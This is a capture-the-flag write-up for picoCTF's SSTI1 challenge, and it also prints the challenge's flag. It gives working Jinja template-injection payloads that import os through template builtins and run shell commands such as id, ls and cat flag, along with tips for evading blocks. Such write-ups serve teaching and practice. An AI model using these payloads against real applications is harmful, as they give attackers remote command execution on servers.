

>> picoCTF — SSTI1

**hallenge name:** SSTI1 (Server-Side Template Injection)

**Category:** Web / SSTI (Template Injection)

**Difficulty:** Easy

**Author:** NIGHTFURY0X01(Arash)

**Objective:** Find the flag by exploiting a server-side template injection (SSTI) vulnerability in a web app search box.

---

## Summary
+ We confirmed the app evaluates template expressions. Starting with a harmless test `{{7*7}}` returned `49`, confirming template evaluation. We then used the application’s Python environment to import `os` via the template builtins and execute shell commands with `os.popen(...)`. Using that technique we ran `id`, `ls`, and finally `cat flag` to retrieve the flag:

```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
---

## Steps / Exploitation 


## Step 1 — Test for template evaluation
+ In the search/announcement box we submitted:
```bash
{{7*7}}
```


+ Result: 49 — this proves the server is evaluating template expressions (SSTI).


## Step 2 — Execute system commands via builtins import 
+ We tried to access Python builtins and import the `os `module through the template evaluation context. The payload used:
```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

+ Result (id):


## Step 3 — Enumerate files
+ Next we listed files in the app directory using:
```bash 
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
+ Result:

+ We see a flag file in the directory.

## Step 4 — Read the flag 
+ Finally we read the flag file with: 

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
+ Result (flag): 


--- 
 
## Result 
```bash
Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```

---
## Notes & Alternate Approaches

+ The initial arithmetic test `{{7*7}}` is a low-risk way to detect if the template engine evaluates expressions.

+ Once SSTI is confirmed, inspect the available context (e.g., `request`, `config`, `g`, `session`) to find a path to Python’s `__builtins__` or other objects that allow imports and execution.

+ For Python template engines (Jinja, Flask templates, etc.), common payloads aim to reach `__globals__ `→ `__builtins__` →` __import__` to load dangerous modules like os, then use `os.popen(...)`, `subprocess`, etc.

+ If direct `__globals__` access is blocked, chained introspection (e.g., walking object attributes) or using available objects in context can work.
